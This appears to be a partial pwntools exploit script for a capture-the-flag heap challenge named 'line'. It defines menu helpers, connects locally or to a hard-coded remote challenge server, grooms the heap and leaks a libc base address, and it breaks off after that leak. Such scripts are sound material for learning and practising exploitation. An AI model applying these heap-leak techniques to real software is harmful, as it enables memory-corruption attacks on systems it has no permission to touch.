 


```python=
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = '35.235.107.145'
port = 6699

binary = "./line"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def add(ID,size,content):
  r.recvuntil(": ")
  r.sendline("1")
  r.recvuntil(": ")
  r.sendline(str(ID))
  r.recvuntil(": ")
  r.sendline(str(size))
  time.sleep(0.01)
  r.send(content)
  pass
def show(start,end):
  r.recvuntil(": ")
  r.sendline("2")
  pass
  r.recvuntil(start)
  data = r.recvuntil(end)[:-len(end)]
  return data

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

if __name__ == '__main__':
  for i in xrange(8):
    add(i+0x10,0x20,str(i+1))
  for i in xrange(8):
    add(i+0x20,0x80,str(i+1))
  for i in xrange(8):
    add(i+0x30,0x30,str(i+1))
  add(0x40,1,"A")
  show("","")
  r.recvuntil("8 : 64 (")
  libc = u64(r.recv(6).ljust(8,"\x00")) - 0x3ebc41
  print("libc = {}".format(hex(libc)))
  for i in xrange(7):
    add(0x10+i,0x10,"A")
  for i in xrange(3):
    add(0x20+i,0x40,"A")
  add(0x30,1,"A")
```